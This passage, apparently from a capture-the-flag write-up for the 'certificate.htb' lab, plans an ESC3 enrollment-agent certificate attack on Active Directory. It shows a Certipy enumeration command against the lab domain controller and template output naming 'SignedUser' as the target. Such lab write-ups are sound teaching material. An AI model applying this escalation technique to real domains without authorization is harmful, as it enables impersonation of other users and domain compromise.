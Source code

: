 We can run [privilege escalation 3](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template){:target="_blank"}{:rel="noopener noreferrer"} from the `certipy` docs! Using the `Delegated-CRA` certificate as an enrollment agent with a template certificate that allows agent enrollment, we'll be able to **request certificates on behalf of other users**

The `SignedUser` template is suitable for this attack
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad find -u lion.sk@certificate.htb -p '<PASSWORD_REDACTED>' -dc-ip 10.10.11.71 -stdout 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
# ...
Certificate Templates
# ...
  1
    Template Name                       : SignedUser
    Display Name                        : Signed User
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    RA Application Policies             : Certificate Request Agent
    Authorized Signatures Required      : 1
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-03T23:51:13+00:00
    Template Last Modified              : 2024-11-03T23:51:14+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Domain Users
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
```
